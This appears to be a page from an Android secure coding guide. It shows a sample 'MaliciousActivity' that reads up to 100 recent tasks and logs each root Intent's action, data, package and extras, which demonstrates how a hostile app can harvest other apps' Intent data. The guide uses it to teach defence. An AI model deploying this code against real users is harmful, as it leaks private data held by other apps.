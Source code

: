```xml
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```

MaliciousActivity.java

```java
package org.jssec.android.intent.maliciousactivity;

import java.util.List;
import java.util.Set;
import android.app.Activity;
import android.app.ActivityManager;
import android.content.Intent;
import android.os.Bundle;
import android.util.Log;

public class MaliciousActivity extends Activity {

    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.malicious_activity);
        // Get am ActivityManager instance.
        ActivityManager activityManager = (ActivityManager) getSystemService(ACTIVITY_SERVICE);
        // Get 100 recent task info.
        List<ActivityManager.RecentTaskInfo> list = activityManager
            .getRecentTasks(100, ActivityManager.RECENT_WITH_EXCLUDED);
        for (ActivityManager.RecentTaskInfo r : list) {
            // Get Intent sent to root Activity and Log it.
            Intent intent = r.baseIntent;
            Log.v("baseIntent", intent.toString());
            Log.v(" action:", intent.getAction());
            Log.v(" data:", intent.getDataString());
            if (r.origActivity != null) {
                Log.v(" pkg:", r.origActivity.getPackageName() + r.origActivity.getClassName());
            }
            Bundle extras = intent.getExtras();
            if (extras != null) {
                Set<String> keys = extras.keySet();
                for(String key : keys) {
                    Log.v(" extras:", key + "=" + extras.get(key).toString());
                }
            }
        }
    }
}
```
